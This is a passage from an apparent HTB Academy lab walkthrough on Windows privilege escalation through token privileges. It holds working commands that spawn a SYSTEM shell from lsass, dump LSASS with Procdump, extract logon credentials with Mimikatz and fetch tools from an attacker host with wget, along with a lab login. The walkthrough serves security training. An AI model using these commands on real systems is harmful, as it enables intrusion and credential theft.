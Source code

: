     Then the attacker gains a cmd shell as `nt authority\system`.

    ```
    more c:\Users\Administrator\Desktop\SeImpersonate\flag.txt  # flag here
    ```
11. Leverage SeDebugPrivilege rights and obtain the NTLM password hash for the sccm\_svc account. Connect to Windows Server through RDP as `jordan:HTB_@cademy_j0rdan!`. Open a Windows PowerShell console as Administrator. Check if the user has the privilege SeDebugPrivilege.

    ```
    PS> whoami /priv
    ```

    Find the service LSASS and create a child process. Transfer the tool [psgetsys.ps1](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1) to the Windows Server.

    ```
    PS> 
    PS> tasklist
    PS> .\psgetsys.ps1; [MyProcess]::CreateProcessFromParent((Get-Process "lsass").Id, "c:\windows\system32\cmd.exe","")
    ```

    A new CMD prompt is opened is `nt authority\system`. Transfer the tool [Procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump) to the Windows Server. Dump the file LSASS with Procdump.

    ```
    PS> wget -O procdump.zip http://10.10.15.34:8000/Procdump.zip # + extract
    PS> .\procdump\procdump.exe -ma lsass.exe lsass.dmp
    ```

    Run Mimikatz in the same path of the `lsass.dmp` file.

    ```
    PS> wget -O mimikatz.zip http://10.10.15.34:8000/mimikatz_trunk.zip # + extract
    PS> .\mimikatz\x64\mimikatz.exe

    mimikatz> log
    mimikatz> sekurlsa::minidump lsass.dmp
    mimikatz> sekurlsa::logonpasswords     # flag here
    ```
12. Leverage SeTakeOwnershipPrivilege rights over the file located at "C:\TakeOwn\flag.txt" and submit the contents.

    ```
    PS> cmd /c dir /q C:\TakeOwn  # can't see owner
    PS> takeown /f C:\TakeOwn\flag.txt
    PS> cmd /c dir /q C:\TakeOwn  # owner is htb-student
    PS> icacls .\TakeOwn\flag.txt /grant htb-student:F
    PS> cat .\TakeOwn\flag.txt    # flag here
    ```
13. Leverage SeBackupPrivilege rights and obtain the flag located at c:\Users\Administrator\Desktop\SeBackupPrivilege\flag.txt

    ```
    PS> whoami /groups
    PS> whoami /priv
